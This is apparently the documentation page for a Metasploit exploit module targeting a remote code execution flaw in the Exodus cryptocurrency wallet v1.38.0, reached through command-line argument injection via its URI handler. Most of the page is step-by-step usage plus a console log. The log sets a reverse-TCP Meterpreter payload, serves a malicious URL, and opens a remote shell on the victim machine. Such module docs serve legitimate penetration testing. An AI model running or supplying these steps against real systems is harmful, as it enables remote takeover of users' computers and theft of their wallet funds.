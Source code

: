 ## Description
This module exploits an Electron remote code execution vulnerability in Exodus wallet. Using the Electron remote code execution vulnerability in protocol handler is possible to inject command line arguments via URI handler. This module has been tested successfully on Windows 10 Enterprise x64. The vulnerable application is available for download at [Exodus v1.38.0](https://exodusbin.azureedge.net/releases/exodus-windows-x64-1.38.0.exe).

## Verification Steps
1. Install Exodus Wallet version `v1.38.0`
2. Start `msfconsole`
3. Do `use exploit/windows/browser/exodus`
4. Do `set PAYLOAD windows/meterpreter/reverse_tcp`
5. Do `set LHOST ip`
6. Do `exploit`
7. On the target machine, browse to the malicious URL and launch Exodus
8. Verify the Meterpreter session is opened

## Scenarios

### Exodus Wallet v1.38.0 on Windows 10 Enterprise x64

```
msf > use exploit/windows/browser/exodus
msf exploit(windows/browser/exodus) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(windows/browser/exodus) > set LHOST 172.16.40.5 
LHOST => 172.16.40.5
msf exploit(windows/browser/exodus) > exploit 
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 172.16.40.5:4444 
[*] Using URL: http://0.0.0.0:80/
msf exploit(windows/browser/exodus) > [*] Local IP: http://172.16.40.5:80/
[*] Server started.
[*] 172.16.40.149    exodus - Delivering Payload
[*] Sending stage (179779 bytes) to 172.16.40.149
[*] Meterpreter session 1 opened (172.16.40.5:4444 -> 172.16.40.149:49726) at 2018-02-23 15:40:17 +0000

msf exploit(windows/browser/exodus) > sessions 1
[*] Starting interaction with 1...

meterpreter > sysinfo 
Computer        : DESKTOP-PI8214R
OS              : Windows 10 (Build 10586).
Architecture    : x64
System Language : pt_PT
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```
